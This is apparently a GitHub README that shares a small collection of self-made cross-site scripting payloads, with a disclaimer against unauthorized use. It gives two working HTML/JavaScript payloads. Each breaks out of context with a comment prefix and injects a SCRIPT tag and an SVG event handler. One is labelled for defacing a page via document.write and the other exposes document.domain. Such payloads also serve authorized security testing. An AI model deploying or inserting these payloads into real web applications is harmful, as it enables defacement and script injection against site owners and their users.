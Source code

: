 # xss
Personally created XSS payloads

# Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>

> So, do no use them unless you're sure the web app will not be damaged! <br>

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>

> to any script kiddies who decide to execute those on random places, you have been warned!

## document.write (Deface) <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```
